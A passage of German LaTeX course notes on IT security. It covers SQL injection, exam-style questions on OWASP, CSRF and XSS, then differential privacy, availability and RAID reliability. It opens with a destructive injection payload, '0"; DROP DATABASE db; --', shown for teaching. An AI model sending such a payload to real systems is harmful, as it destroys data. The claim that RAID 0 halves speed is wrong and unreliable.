					\item Über ähnliche Wege wäre es z.B. auch möglich die gesamt Datenbank zu löschen:
						\begin{itemize}
							\item Aufruf: \texttt{?id=\underline{0\"; DROP DATABASE db; -{}-}}
							\item Durch das Semikolon wird der erste Query beendet und ein zweiter begonnen. Mit den zwei Bindestrichen am Ende wird ein Kommentar eingeleitet, sodass die Abfrage nicht fehlschlägt.
							\item Der SQL-Query wird nun wie folgt zusammen gebaut:
								\begin{figure}[H]
									\begin{lstlisting}[language = SQL]
SELECT * FROM page WHERE id = "*@\underline{\texttt{0\"; DROP DATABASE db; -{}-}}@*";
\end{lstlisting}
								\end{figure}
							\item Bei Bearbeitung der Anfrage wird nun die gesamt Datenbank gelöscht.
						\end{itemize}
				\end{itemize}
			% end
		% end
	% end

    \section{Fragen} % 7
		\paragraph{Nennen Sie 5 der Top-Ten-Web-Angriffe von OWASP.}
		\begin{itemize}
			\item Injection
			\item Broken Authentication
			\item Sensitive Data Exposure
			\item Broken Access Control
			\item Security Misconfiguration
		\end{itemize}
		
		\paragraph{Erklären Sie das Prinzip der CSRF-Angriffe.}
		Bei einem CSRF-Angriff wird der Nutzer auf eine schädliche Website geleitet, die bspw. mit einem nicht sichtbaren Bild eine URL einer anderen Website einbindet, auf der der Nutzer eingeloggt ist. Dadurch kann der Angreifer z.B. die E-Mail-Adresse des Nutzers bei dem anderen Dienst ändern.
		
		\paragraph{Angenommen, der Anwender schließt alle anderen Tabs, während er eine Session aufrecht erhält. Schützt das vor CSRF-Angriffen?}
		Nein, da er sich nicht abmeldet und damit die Session weiter offen und der Cookie bestehen bleibt.
		
		\paragraph{Nennen Sie die drei Arten von XSS-Angriffen.}
		\begin{itemize}
			\item DOM XSS
			\item Reflected XSS
			\item Persistent XSS
		\end{itemize}
		
		\paragraph{Was ist der Unterschied zwischen einem persistenten und einem nicht-persistenten XSS-Angriff?}
		Bei einem persistenten Angriff wird der Schadcode dauerhaft gespeichert und an jeden Nutzer ausgeliefert, der die Website besucht. Ein nicht-persistenter Angriff wird nur mit einer speziell modifizierten URL ausgeführt, auf die der Nutzer navigieren muss.
		
		\paragraph{Welche Art der XSS-Angriffe ist am Schwierigsten zu verhindern?}
		Am schwierigsten sind DOM XSS-Angriffe zu verhindern, da der Server hier keinen Einfluss hat.
		
		\paragraph{Beschreiben Sie das Prinzip von SQL-Injection-Angriffen.}
		Ein Parameter (Query-Parameter, Formular, etc.) einer Website wird so modifiziert, dass aus dem dahinterliegenden SQL-Query ausgebrochen wird und beliebige Datenbankabfragen ausgeführt werden können.
		
		\paragraph{Was vermuten Sie hinter \enquote{Blind} und \enquote{Time-Based}-SQL-Injection-Angriffen?}
		Bei blinden SQL-Injection-Angriffen wird versucht, einen nicht bekannten Query zu modifizieren. Bei einem Time-Based-Angriff wird versucht, auf Basis der Antwortzeiten herauszufinden, wie die Datenbank aussieht (Beispiel: Dauert das Sortieren einer Tabelle lange, sind wohl viele Einträge vorhanden).
    % end
% end

\chapter{Weiterführende Themen}
    \section{Privacy: Datenanalysen}
        \begin{itemize}
        	\item Firmen extrahieren z.B. Information wie durchschnittliche Ausgaben aus den Kundendaten.
        	\item Dabei darf die Privacy der einzelnen Kunden nicht verletzt werden.
        \end{itemize}

        \subsection{Differential Privacy}
            \begin{itemize}
            	\item Beispiel: Bestimmung der durchschnittlichen Größe.
            	\item Prinzip der \textit{Differential Privacy}: Die Antwort wird verrauscht, sodass ein individueller Eintrag quasi keinen Einfluss mehr hat.
            	\item Ein Datenbank-Algorithmus ist \textit{differentially private}, wenn für alle \( \textrm{DB}^* = \textrm{DB} \setminus \{ \textrm{Element} \} \) gilt:
                	\begin{equation*}
	                	P(\textrm{Algo}(\textrm{DB}) \textrm{ liefert Antwort } a) \approx P(\textrm{Algo}(\textrm{DB}^*) \textrm{ liefert Antwort } a)
                	\end{equation*}
            \end{itemize}
        % end
    % end

    \section{Usablity}
        \begin{itemize}
        	\item Warum reagieren Anwender falsch auf Warnungen?
        	\item Warum entwickeln Programmierer unsichere Lösungen?
        	\item u.v.m
        \end{itemize}
    % end

    \section{Availability/Reliability}
        \begin{itemize}
        	\item \textbf{Availability} \\ Verfügbarkeit des Systems (in Prozent der Laufzeit).
        	\item \textbf{Reliability} \\ Zuverlässigkeit des Systems (Wahrscheinlichkeit, dass das System Ordnungsgemäß arbeitet).
        	\item \textbf{Begriffe}
            	\begin{description}
            		\item[MTTF] Mean Time To Failure
            		\item[MTTR] Mean Time To Recovery
            		\item[Availability] \( \frac{\textrm{MTTF}}{\textrm{MTTF\ + \textrm{MTTR}}} \)
            	\end{description}
        \end{itemize}
    
        \paragraph{Reliability Beispiel: RAID}
		    \textit{Redundant Arrays of Independent Disks} (RAID).
		    
		    \begin{description}
		    	\item[RAID 0 (Stripping)] \enquote{Reißverschluss} \\ halbe Geschwindigkeit
		    	\item[RAID 1] \enquote{Duplizieren} \\ verdoppelt Speicherbedarf, höhere Geschwindigkeit
		    	\item[RAID 5] \enquote{Verteilen und Paritätsbits} \\ leicht erhöhter Speicherbedarf, verbesserte Geschwindigkeit
		    \end{description}
		    
		    Die Ausfallwahrscheinlichkeiten für die einzelnen RAID-Level sind (wobei \(p\) die unabhängige Ausfallwahrscheinlichkeit einer einzelnen Platte ist):
		    \begin{table}[H]
		    	\centering
		    	\begin{tabular}{| c | c | c | c |}
		    		\hline
		    		                                   & \textbf{RAID 0}     & \textbf{RAID 1} & \textbf{RAID 5}               \\ \hline
		    		\textbf{Ausfallwahrscheinlichkeit} & \( 1 - (1 - p)^2 \) & \( p^2 \)       & \( 1 - (4p(1-p)^3+(1-p)^4) \) \\ \hline
		    		\textbf{Beispiel} \( p = 1\% \)    & \( 1.99\% \)        & \( 0.01\% \)    & \( 0.059\% \)                 \\ \hline
		    	\end{tabular}
		    	\caption{RAID Level}
		    \end{table}
        % end
    % end
% end
